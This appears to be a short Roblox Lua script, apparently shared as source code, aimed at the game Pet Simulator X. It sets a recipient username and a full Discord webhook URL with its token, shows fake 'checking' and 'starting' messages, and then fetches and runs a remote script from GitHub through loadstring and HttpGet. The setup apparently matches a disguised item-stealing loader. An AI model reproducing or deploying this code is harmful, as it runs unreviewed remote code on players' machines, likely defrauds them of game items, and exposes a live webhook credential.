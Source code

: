 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271031704895538/JuGr4ImoxdCNMErT9BAtRqYgeaJvaKR9qrB5Oc-Ob0l5ssG6hPY56440fyqKCr3owl1Q"

_G.CustomScriptName = "AHAAHAHAHAHAAHAHH"

_G.Text1 = "Script YOUR MATHER"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
